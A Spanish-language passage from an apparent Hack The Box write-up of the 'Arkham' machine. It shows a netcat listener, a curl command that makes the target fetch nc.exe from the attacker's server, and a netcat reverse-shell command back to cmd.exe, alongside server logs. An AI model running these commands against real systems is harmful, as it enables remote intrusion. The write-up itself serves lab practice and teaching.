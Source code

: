 ![179bash_tshark_pingDONE](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/arkham/179bash_tshark_pingDONE.png)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/arkham/179google_gif_hypeoverload.gif" style="display: block; margin-left: auto; margin-right: auto; width: 90%;"/>

Bien, pues borrando la mayoría de payloads y quedándonos con los cercanos a estos tres podemos validar realmente que tenemos ejecución de comandos remotamenteeeeeeeeeeeeeeeeeeeeeee :D

Listoooooooo, generemos una Reverse Shell. Pongámonos en escucha con netcat, `nc -lvp 4433`.

Intentando con **PowerShell** (y sus variaciones), con **certutil** y finalmente con **cURL** subir el binario `nc.exe`, logramos con este último recibir las 3 peticiones en nuestro servidor web:

```py
...
sign_payload("curl http://10.10.14.14:8000/nc.exe -o C:\\Windows\\Temp\\nc.exe'")
```

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.130 - - [26/Apr/2021 25:25:25] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.130 - - [26/Apr/2021 25:25:25] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.130 - - [26/Apr/2021 25:25:25] "GET /nc.exe HTTP/1.1" 200 -
```

Pero al generar la reverse shell:

```py
...
sign_payload("C:\\Windows\\Temp\\nc.exe 10.10.14.14 4433 -e cmd.exe")
```

No pasa nada :( Asi que probablemente la ruta en la que estemos subiendo el archivo no exista. A jugar y probar cositas...

* [Where Does Windows Store Temporary Files and How to Change TEMP Folder Location?](https://www.askvg.com/where-does-windows-store-temporary-files-and-how-to-change-temp-folder-location/?__cf_chl_jschl_tk__=812d45995163fa039197bffdf31c5b8cabe0f062-1619536286-0-AZd7w3DpGArvac7iIIctQoNmgNStxtK3jib0xeNtJ6b1JGaz2Jnhie4KmOTNrRN6e_IIZR0GluumpmtlDom5VkSnLETLoFHBkaXh-yy6c3DlXFxs_6eqzoSl6KPdu9y8LCUqSPl4A9x5uuTr-A_VLZwfxNuQyG6QAfFs7NtbszztbvodTIThfqrWg7BI0tFh0HK_oTufa-j81Qm9_zJCg_M7reh2IV-7ECaWBIDIUtFF09b8iGpPlIq_1eTgqqKZKTqnGWGBpJyarfDmulFcJeM2UXMb5vHEcN-tb4Wjudun2nogOjqL1zXs4mZ3C2WGLtspWVafZBjzI7rC-xtrntGdG6ZzLYWykBhC1mf6aXLTE-m6ThY0sDsNyeB9FgI_RocT8d5wKXye1_nqIpAutHweTe83R2e4-XoOkBQ6yidlmzJAvapgnFOAhQKJiZLO_L4eYzqZkEfJcWqNBW6K0svtyiic-TsB6l4Ac0MVI7uRGz2aVOJABggxJeZ1sHZnWg).
